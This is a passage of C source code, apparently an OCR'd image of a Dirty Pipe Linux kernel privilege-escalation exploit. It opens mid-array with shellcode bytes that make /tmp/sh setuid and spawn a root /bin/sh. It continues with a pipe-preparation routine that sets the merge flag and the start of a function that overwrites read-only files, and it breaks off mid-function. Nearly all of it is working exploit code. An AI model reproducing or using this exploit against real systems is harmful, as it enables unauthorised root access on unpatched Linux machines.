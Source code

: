 ```
	0x05, 0x48, 0xc7, 0xc0, 0x03, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d,
	0x3d, 0x1c, 0x00, 0x00, 0x00, 0x48, 0xc7, 0xc6, 0xed, 0x09, 0x00, 0x00,
	0x48, 0xc7, 0xc0, 0x5a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff,
	0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x2f, 0x74, 0x6d,
	0x70, 0x2f, 0x73, 0x68, 0x00, 0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x02, 0x00, 0x3e,
	0x00, 0x01, 0x00, 0x00, 0x00, 0x78, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40, 0x00, 0x38,
	0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00,
	0x00, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x40,
	0x00, 0x00, 0x00, 0x00, 0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0xba, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x10, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x69,
	0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x31, 0xff, 0x48, 0xc7, 0xc0, 0x6a,
	0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0x8d, 0x3d, 0x1b, 0x00, 0x00, 0x00,
	0x6a, 0x00, 0x48, 0x89, 0xe2, 0x57, 0x48, 0x89, 0xe6, 0x48, 0xc7, 0xc0,
	0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48, 0xc7, 0xc0, 0x3c, 0x00, 0x00,
	0x00, 0x0f, 0x05, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00
};

/**
 * Create a pipe where all "bufs" on the pipe_inode_info ring have the
 * PIPE_BUF_FLAG_CAN_MERGE flag set.
 */
static void prepare_pipe(int p[2])
{
	if (pipe(p)) abort();

	const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
	static char buffer[4096];

	/* fill the pipe completely; each pipe_buffer will now have
	   the PIPE_BUF_FLAG_CAN_MERGE flag */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		write(p[1], buffer, n);
		r -= n;
	}

	/* drain the pipe, freeing all pipe_buffer instances (but
	   leaving the flags initialized) */
	for (unsigned r = pipe_size; r > 0;) {
		unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
		read(p[0], buffer, n);
		r -= n;
	}

	/* the pipe is now empty, and if somebody adds a new
	   pipe_buffer without initializing its "flags", the buffer
	   will be mergeable */
}

int hax(char *filename, long offset, uint8_t *data, size_t len) {
	/* open the input file and validate the specified offset */
	const int fd = open(filename, O_RDONLY); // yes, read-only! :-)
	if (fd < 0) {
		perror("open failed");
		return -1;
	}

	struct stat st;
```